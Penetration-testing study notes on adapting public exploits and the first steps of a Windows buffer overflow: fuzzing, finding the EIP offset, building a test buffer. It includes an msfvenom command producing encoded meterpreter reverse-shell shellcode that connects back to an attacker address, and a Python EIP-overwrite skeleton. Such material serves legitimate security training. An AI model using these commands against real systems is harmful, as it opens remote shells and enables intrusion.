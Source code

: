 # Editing Exploits

We often find exploits that do not work out of the box. Typical problems we encounter are:

* Payload needs to be changed
* Return-address is incorrect

We can generate our own shellcode to replace the default code in the exploit fairly easily using msfvenom.

```text
# Ex. exploit code was written in python for windows exploit
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.120 LPORT=443 -f py -e x86/shikata_ga_nai -i 3 -v shellcode
```

{% hint style="info" %}
It is generally best practice to keep the shellcode the same length as the original for compatability.

* Tip: Try to make your new payload smaller and fill the beginning with extra NOPs to make it the same size.
{% endhint %}

## Buffer Overflows

### 1. Fuzzing

Send Strings of increasing length to the vulnerable parameter in the service

### 2. Finding EIP with Pattern

`$ msf-pattern_create -l <size>`   \* Length that crashed the application

`$ msf-pattern_offset -l <size> -q <eip-crash-value>`

Using the EIP offset found, create a poc to check the offset is correct and reliable

```text
# in python script
eip = '\xef\xbe\xad\xde'
buffer = "A" * <length offset> + eip + "C" * (<total-length> - <offset> - 4)
```

### 3. Finding Bad Characters



